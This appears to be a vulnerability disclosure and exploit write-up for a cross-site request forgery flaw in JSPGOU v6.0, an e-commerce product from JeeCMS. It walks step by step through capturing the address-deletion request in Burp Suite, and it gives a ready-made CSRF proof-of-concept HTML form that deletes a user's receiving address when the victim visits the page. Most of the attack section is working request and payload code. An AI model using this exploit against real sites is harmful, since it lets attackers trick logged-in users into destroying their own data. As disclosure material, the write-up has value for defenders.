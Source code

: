 ## Information

```c
Exploit Title:JSPGOU v6.0-Cross-site request forgery(CSRF)
Exploit date:02.06.2021
Exploit Author:Al1ex@Heptagram
Vendor Homepage:https://www.jeecms.com/
Affect Version:JSPGOU v6.0
Description:There is an CSRF vulnerability in the receiving address of JSPGOU v6.0. The attacker can construct a malicious page and cheat the user to visit it, thus triggering CSRF vulnerability to delete the receiving address.
```

## How to Exploit

Step 1：Create receiving address with testabc account

![img](img/a.png)

Step 2：Click delete address, and use burpsuite to capture packets at the same time

![img](img/b.png)

```javascript
GET /shopMemberAddress/address_delete.jspx?id=247 HTTP/1.1
Host: 192.168.174.144:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.77 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.174.144:8080/shopMemberAddress/address_list.jspx
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_eaa57ca47dacb4ad4f5a257001a3457c=1605675257,1605704689,1605871061,1606205262; clientlanguage=zh_CN; JSESSIONID=8161C2853810789D2E03C8D8F5D0FC7C
Connection: close


```

Step 3：Using burpsuite to construct CSRF exp

![img](img/c.png)

```javascript
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.174.144:8080/shopMemberAddress/address_delete.jspx">
      <input type="hidden" name="id" value="247" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

Step 4：Drop the packet in burpsuite, and then refresh the page to ensure that the address information is not deleted

![img](img/d.png)

Step 5：Visit CSRF malicious page

![img](img/e.png)

The receiving address was successfully deleted

![img](img/f.png)

## Reference

https://www.jeecms.com/

